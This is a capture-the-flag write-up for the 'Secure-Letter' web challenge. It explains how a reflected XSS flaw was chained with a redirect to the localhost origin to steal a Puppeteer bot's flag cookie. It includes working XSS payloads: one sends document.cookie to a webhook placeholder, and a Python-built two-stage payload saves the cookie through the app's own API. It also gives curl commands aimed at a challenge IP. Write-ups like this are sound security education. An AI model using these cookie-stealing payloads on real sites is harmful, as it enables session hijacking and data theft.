 # QnQSec CTF 2025 — Secure-Letter
- **Category:** Web
- **Tags:** XSS, Internal Exfiltration, Docker Networking, Same-Origin Policy
- Author: Legasi

---

## **1. Challenge Summary**

The challenge provided a Node.js web application, "Secure-Letter," which allows users to write and view letters. A Puppeteer bot was available to "report" URLs for review. The ultimate goal was to steal the bot's cookie, which contained the flag. The core of the challenge involved exploiting a Reflected Cross-Site Scripting (XSS) vulnerability while navigating complex constraints imposed by Docker networking, browser security policies, and network isolation.

---

## **2. Initial Analysis & Reconnaissance**

Upon reviewing the provided `server.js` and `bot.js` source files, several key mechanics were identified:

- **Web Server (`server.js`):**
    - An endpoint `/letter` takes a `content` query parameter and renders its value directly into the HTML response without any sanitization, indicating a classic Reflected XSS vulnerability.
    - API endpoints exist to create (`/api/letter`) and list (`/api/letters`) letters saved by users.
    - A reporting endpoint (`/api/report`) takes a URL and forwards it to the bot for a visit.
- **Bot (`bot.js`):**
    - The bot uses Puppeteer to visit a submitted URL.
    - Crucially, before visiting, the bot sets a cookie: `name: 'flag', value: FLAG{...}, domain: 'localhost'`. The `HttpOnly` flag is set to `false`, making the cookie accessible via JavaScript.
    - The challenge notes specified that from the bot's perspective, the web server is reachable at the hostname `web:3001`.

This setup immediately presented the central conflict: the XSS payload had to be executed from the `localhost` origin for the cookie to be accessible, but the bot could only initiate connections to the `web` hostname.

---

## **3. The Vulnerability**

The solution required chaining multiple vulnerabilities and environmental constraints:

1. **Reflected XSS:** The primary entry point was the lack of output encoding on the `content` parameter in the `/letter` route. Any HTML/JavaScript passed in this parameter would be executed by the visitor's browser.
2. **Same-Origin Policy Bypass:** The main challenge was bypassing the browser's Same-Origin Policy. A direct XSS payload served from `http://web:3001` could not read a cookie set for `http://localhost`.
3. **Network Isolation:** Through trial and error, it was discovered that the bot's container had no outbound internet access. It could not make requests to external domains like `webhook.site`. This made traditional data exfiltration impossible. The flag had to be "exfiltrated" internally, back into the application itself.

The final exploit path required a two-stage XSS attack to change the browser's origin, followed by an internal data exfiltration using the application's own API.

## **4. Exploitation Steps**

The exploitation process was iterative, with each failed attempt revealing a new constraint of the challenge environment.

1. **Initial Failure: Direct Exfiltration**
The first attempt involved a standard XSS payload to send the bot's cookie to an external webhook.
    - **Payload Sent to Bot:** `http://[IP]:3001/letter?content=<script>document.location='[WEBHOOK]?c='+document.cookie</script>`
    - **Result:** The webhook received a request, but the cookie value was empty.
    - **Conclusion:** This revealed the **origin mismatch**. The bot visited the server via its IP address, but the cookie was scoped to the `localhost` domain, so the browser correctly refused to attach it.
2. **Second Failure: `localhost` Exfiltration**
The next logical step was to make the bot access the page via `localhost` so the cookie would be valid.
    - **Payload Sent to Bot:** `http://localhost:3001/letter?content=<script>...[payload]...</script>`
    - **Result:** The bot failed to visit the URL entirely.
    - **Conclusion:** This revealed the **Docker networking constraint**. The bot, running in its own container, could not resolve `localhost` to the web server's container. It had to use the internal Docker hostname `web`.
3. **Third Failure: External Redirect & Network Isolation**
The final attempt to exfiltrate externally involved a two-stage attack to solve the origin problem.
    - **Payload Sent to Bot:** `http://web:3001/letter?content=<script>window.location='http://localhost:3001/letter?content=...'</script>`
    - **Result:** The bot reported a successful visit, but the external webhook never received a request.
    - **Conclusion:** This was the final key discovery: the bot container was **network-isolated** and could not make requests to the public internet.
4. **Success: Two-Stage XSS with Internal Exfiltration**
Since the data could not be sent out, it had to be exfiltrated *in*. The final plan was to force the bot to save its own cookie as a new letter in the application, which we could then read.
    - **Stage 1 (Origin Hop):** A payload was crafted and sent to `http://web:3001`. This payload's only job was to force the bot's browser to redirect to the Stage 2 payload at `http://localhost:3001`.
    - **Stage 2 (Internal Exfiltration):** Now running on the `localhost` origin, the second XSS payload executed. It used the `fetch` API to make a `POST` request to the web application's own `/api/letter` endpoint. The body of this request contained the bot's `document.cookie`.
    - **Stage 3 (Flag Retrieval):** After the bot visit, a simple `GET` request was made to the `/api/letters` endpoint, which listed all saved letters. One of these letters now contained the flag.

---

## **5. Final Exploit / Payload**

The final attack can be executed with a single `curl` command that constructs and sends the multi-layered payload.

```python
# --- Python script to generate the final URL ---
import urllib.parse

# Stage 2: The payload that runs on localhost. It reads the cookie
# and POSTs it back to the application's API as a new letter.
internal_payload = """
<script>
  fetch('/api/letter', {
    method: 'POST',
    headers: {'Content-Type': 'application/json'},
    body: JSON.stringify({content: document.cookie})
  });
</script>
"""

# URL-encode the Stage 2 payload
encoded_internal_payload = urllib.parse.quote(internal_payload)

# Stage 1: The payload that runs on 'web:3001'. It redirects the bot's browser
# to localhost, carrying the Stage 2 payload in the query string.
redirector_payload = f"<script>window.location='http://localhost:3001/letter?content={encoded_internal_payload}'</script>"

# URL-encode the Stage 1 payload
encoded_redirector_payload = urllib.parse.quote(redirector_payload)

# The final URL that the bot needs to visit
bot_url = f"http://web:3001/letter?content={encoded_redirector_payload}"

print("Final URL for the bot:")
print(bot_url)
```

**Execution Commands:**

1. **Send the payload to the bot:**Bash

```bash
# (Replace BOT_URL with the output from the Python script above)
curl 'http://161.97.155.116:3001/api/report' \
  -H 'Content-Type: application/json' \
  --data-raw '{"url":"[BOT_URL]"}'
```

1. **Retrieve the flag:** After a few seconds, make a request to the API to list all letters.

```bash
curl 'http://161.97.155.116:3001/api/letters'
```

The response will be a JSON array containing a letter with the flag.

---

## **6. Key Takeaways & Lessons Learned**

- **Docker Networking vs. Browser Security:** This challenge was a masterclass in the conflict between backend container networking (`web` hostname) and frontend browser security (Same-Origin Policy for `localhost` cookies). The solution required using an exploit (XSS) to bridge this gap.
- **Internal Exfiltration:** When external C2 (Command and Control) channels are blocked due to network isolation, an application's own features can often be abused to store or echo back sensitive data.
- **Trust the Hints:** The challenge note "use web:3001 for bot" was not just a suggestion but a critical piece of the puzzle, confirming the Docker networking setup and forcing the attacker away from simplistic `localhost` payloads.
